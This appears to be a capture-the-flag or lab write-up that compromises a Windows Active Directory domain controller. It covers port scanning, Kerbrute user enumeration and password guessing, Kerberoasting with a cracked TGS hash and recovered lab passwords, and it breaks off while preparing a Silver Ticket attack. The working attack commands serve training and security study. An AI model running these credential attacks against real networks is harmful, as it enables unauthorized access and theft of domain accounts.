# Reconnaissance

Let’s start by checking which **TCP ports** are open

```bash
nmap -sS -p- --open --min-rate 5000 10.129.43.92 -vvv -n -Pn -oN allports.txt
```

```bash
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
1433/tcp  open  ms-sql-s         syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
4411/tcp  open  found            syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49673/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49698/tcp open  unknown          syn-ack ttl 127
49707/tcp open  unknown          syn-ack ttl 127
```

Based on the ports we see, we can already tell that we're dealing with an **AD** (Active Directory) environment

Now let's grep out all the open ports

```bash
cat allports.txt | grep -o "^[0-9]*" | xargs | tr ' ' ','
```

```bash
53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49698,49707
```

Once we have all the open ports, let's perform service version detection

```bash
nmap -sVC -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49698,49707 10.129.43.92 -oN portscan.txt
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Scramble Corp Intranet
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-10 10:15:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2026-08-10T10:18:34+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-10T10:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.43.92:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-08-10T10:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-08-10T10:02:27
|_Not valid after:  2056-08-10T10:02:27
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-10T10:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-10T10:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
4411/tcp  open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.99%I=7%D=8/10%Time=6A79A4BE%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.
SF:3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_ORDER
SF:S_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDERS_
SF:V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNO
SF:WN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TLS
SF:SessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SCRAM
SF:BLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_V1\
SF:.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(FourO
SF:hFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND
SF:;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_
SF:COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%
SF:r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,35,"
SF:SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LANDesk
SF:-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r
SF:\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D,"S
SF:CRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORDERS
SF:_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r
SF:(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-10T10:17:54
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```
Based on this information, we can confirm that we are dealing with a **DC** (Domain Controller)

Luckily for us, we have the **DC** name and the **domain** name

Let's add this to the **/etc/hosts** file

```bash
sudo nvim /etc/hosts
```



Now, we have a lot of information here and many ports to go through, but let's start with the most important one **HTTP**



Now let's do some manual enumeration on this web service



And in the “IT Services” section, we can see an interesting message "Due to the security breach last month we have now disabled all NTLM authentication on our network. This may cause problems for some of the programs you use so please be patient while we work to resolve any issues"

Based on this information, we can now conclude that we must use **Kerberos authentication**

Continuing with the enumeration, we see that the web service has some **resources**

# User Found





In the screenshot of the CMD, we can see that a system level user named **“ksimpson”** is being used

Now let's check if it's a valid user to do this, let's use the `Kerbrute` tool

```bash
echo 'ksimpson' > user.txt
```

```bash
kerbrute userenum -d scrm.local --dc 10.129.43.92 user.txt
```



And as we can see, the user is valid

# Brute-Force Attack

Since we can't do much with just the username, we're going to perform a **brute-force attack** on usernames using `kerbrute`. If we have multiple users, 
we can attempt an **AS-REP Roast Attack**     

(Wordlist that we used ---> https://github.com/attackdebris/kerberos_enum_userlists)

```bash
kerbrute userenum -d scrm.local --dc 10.129.43.92 /opt/kerberos_enum_userlists/A-ZSurnames.txt
```



Successful brute-force attack we've gained 4 new users!

Now let's save them

```bash
echo 'asmith,jhall,khicks,ksimpson,sjenkins' | tr ',' '\n' > users.txt
```

# AS-REP Roast Attack (failed)

We now have the file that we'll use for the **AS-REP Roast Attack**, to do this, let's use the impacket `GetNPUsers.py`

```bash
GetNPUsers.py -no-pass -usersfile users.txt scrm.local/
```



Unfortunately, our attack failed because **UF_DONT_REQUIRE_PREAUTH** isn't set

What comes to mind right now is to use `Kerbrute` again to try to identify valid credentials for those users we found

we're going to perform another **brute-force attack**, but in this case to obtain valid user passwords

Before launching a large-scale attack, it's best to first test it manually by entering usernames as passwords, in some cases this works because users set their username as 
a password

Let's start with the first user we found, **“ksimpson”**

# Credentials Found

```bash
kerbrute bruteuser -d scrm.local --dc 10.129.43.92 users.txt ksimpson
```



It looks like the user ksimpson is using the username as a password! (This is a very serious security mistake)

After testing the following users, only the user ksimpson works

Now that we have credentials, we can carry out a **Kerberoasting attack** 

But before we try that, let's connect via **SMB** using the impacket `smbclient.py`   (Let's not forget to use the -k flag for Kerberos authentication)

# Successful SMB connection

```bash
smbclient.py scrm.local/ksimpson:ksimpson@dc1.scrm.local -k
```



And we gained access to the **SMB** service

After accessing each shared resource, only the “Public” resource provides a **PDF** that appears to contain important information

```bash
use Public
ls
```



Let's download it!

```bash
get Network Security Changes.pdf
```

And now let's open it

```bash
xdg-open 'Network Security Changes.pdf'
```



But we couldn't find anything we didn't already know

So let's move on to the **Kerberoasting Attack** phase

To perform this attack, we'll use the impacket `GetUserSNPs.py`  (and of course we're going to use the only credentials we have)

# Kerberoasting Attack

```bash
GetUserSPNs.py -k scrm.local/ksimpson:ksimpson -dc-host DC1.scrm.local -request
```



The attack was successful, and we were able to obtain the **TGS** (Ticket Granting Service) for the user **"sqlsvc"** which has a **SPN** (Service Principal Name) associated 
with it

Now let's save the **hash** to a file

```bash
echo '$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$72189adcba0a5372dbc0d7f3c9460f7a$6c0cef74da581275c1928cc40dc73e04d89a17651acb788d3937b78d77f3be5143eb6cf1d0bb287104bb30f3e11492b0e2ba697bd285fbc32653116fdfbfdb17e3ad33fbb2fb186a9a5d9ecf30999296d95b792427e77e0e3160cd8ea32c9aa4201f42625e1438fadf4d30b3a820ad0fa931e40e70b395dd6e502bb5dbf8d654d4ba07bfa8b0e6a675e8a7a2552d82a099ab957b5eace4c708750924b11d050d877aa1dbcfc34bbf6c09faa0893ea782bbf4e73b1349c049a8a1df61319d9160ab8c7f0dfbc6c3c43bae9871e7b986db63a8b4391dc861c4d1c05b0060807635194d72b085e3643fd364e03c52b86c36a1bc9756ace05502ba3d3f550b7f8b4c10cb851d98b66a66fd1a40f43213c3e9a26e4cc3e6876a1121376ac9a9644aa93af0345ba4dc87625cab83f9a5b9f2a008d74ece83f8d816ff04588cb4cca8bdab4f46edbd7840decd46224ffa7d75fbb6b94e2d6decf4ccaff25263938cf3d53c5404a8b0b3ac1907a8e25ce1f975fb7bcb028b7ae05387b013ddfb819c838fc5c51d2ded1425024642fada3a0b82586a748e9f9773adc072ca287e5863769569b36a18c013b6a7bf1b902fc41a4e5ece08b5619818e9a0fc805882329cc75f442e48b23340b617f0e36d88d6c89b3fedceeffe83a949224ed8b2d4a4d62419d6745ad3aa84e5185d04a983f2a53c89a3f6d2d65ed81b2956b88663c20ef043528352fbb709a2bc163dfec930fab8aa22feb05e62183d324656fe95139cffc1b011441aca0f763209dd9e6a7064bf4dba3d888d0eacb6918d642516044ff435d30fc5118541fc655b9e73672bad424471687f13f6a796d6021bfabf8a12e85041a455f9b65d2d0a1bbd9d1b8926cfadba70b772af93ff8d283ee4231bd60deb20e22d420e044b9872a2ad6565ec432cb533732dc3b8658a1453f9559d8755d3c4863242d0dbb97a44413a1fb9486a33b3a1eaab9fd0c2dd6f4792d6ebf62d96c3556193577dc0f49250d40b45431a94d7d46f58f62da296429f37aa75d2fb9335e052539bea96110e85338539b7d911ab6e57633de7a707faa868fa32cae7d000cf2e701e40177f2dc4548afdb03e55105704d33e58bf6b314b728141a1d0237b1e04f33d34592755788632cef22a2f77e908463244fe660f428cac55dbcf951a6767ab7dbfeaae7d071454537e3c8f4d836932ee9c6ba94a079b68d56e6f8852e25d361a8330e348f19c7ddcbeaf9f347c2a833d2a593ce848877bc89c0b859a07459c98f8a9427c70baa8853d7564d8e9fe39e17b10cc244effbb78db21476fd99f892a087963b11f954b04e1e920466d828943d7cce6f2ed34bf37c79274719c9603bd1e0592ccca96b72022a4d62019a12013b06af7676b0d84930ab6a1aded49b478209e09f96f020d268720a5dae6a46b7cd0eb0bfb11ce' > hash
```

And now let's crack it using `John the Ripper`

# Cracking TGS Hash

```bash
john --format=krb5tgs --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```



And now we have the **sqlsvc** user's credentials in plain text

(sqlsvc:Pegasus60)

As we saw, the sqlsvc user is associated with an SPN, which is mssql

Now that we know this, let's try to connect to the **MSSQL** service using that user. To do so, we'll use the `mssqlclient.py` impacket

# Connecting to the MSSQL service (failed)

```bash
mssqlclient.py scrm.local/sqlsvc:Pegasus60@10.129.43.92 -k
```



But we haven't been able to connect successfully

But we still have another method: the **Silver Ticket Attack**

To carry out this attack, we must have a user account associated with an SPN, that user's password in NTLM hash format, and finally the Domain SID of the user we want 
to impersonate

# Obtaining the SID, SPN and NTLM Hash

First, let's start by converting the user's password into an **NTLM hash**  
(https://codebeautify.org/ntlm-hash-generator)

Next, we'll retrieve the **Domain SID** for the **Administrator** user

To do this, we'll use the impacket `getPac.py`

```bash
getPac.py scrm.local/sqlsvc:Pegasus60 -targetUser Administrator
```

